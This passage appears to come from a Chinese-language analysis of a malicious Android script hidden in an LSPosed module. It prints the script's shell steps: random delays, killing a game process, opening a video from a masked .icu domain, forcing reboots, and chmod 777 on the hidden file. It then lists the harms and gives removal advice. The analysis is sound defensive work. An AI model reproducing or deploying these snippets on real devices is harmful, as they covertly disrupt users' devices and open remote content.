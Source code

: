 ```shell
wait_time=$((RANDOM % 301 + 600))
sleep $wait_time
kill -9 $pid
```

作用：

- 在发现目标应用运行后，随机延迟 600 到 900 秒（约为半局游戏时间）。

- 使用 kill -9 强制终止游戏进程，破坏用户的游戏体验。

##### 3.5 启动不明视频链接

```shell
am start -p com.miui.video -d "https://*******.icu/d/local/999.mp4"-t video/mp4
sleep 60
```

作用：

- 使用 am start 命令打开小米视频播放器（小米怎么你了），尝试播放来自不明网站的视频文件。

##### 3.6 强制重启设备

```shell
reboot
```

作用：在视频播放 60 秒后强制重启设备。

##### 3.7 循环等待

```shell
check_interval=$((RANDOM % 301 + 300))
sleep $check_interval
```

作用：每次循环结束后，随机等待 5~10 分钟。

##### 3.8 设置权限

```shell
chmod 777 /data/adb/service.d/.lsposed_service.sh
```

作用：为脚本文件赋予最高权限（读、写、执行），确保其在任何情况下都能运行。

#### 4. 危害

- 干扰正常使用：强制结束游戏进程，影响用户体验。

- 恶意链接风险：播放的远程视频可能携带恶意代码。

- 设备不稳定：频繁重启设备，导致设备进入循环崩溃状态。

- 隐蔽性强：利用 LSPosed 模块自动启动机制，开机即生效，且通过随机延迟降低被检测的概率。

#### 5. 清除与防护

立即卸载此模块并删除恶意脚本 `/data/adb/service.d/.lsposed_service.sh`
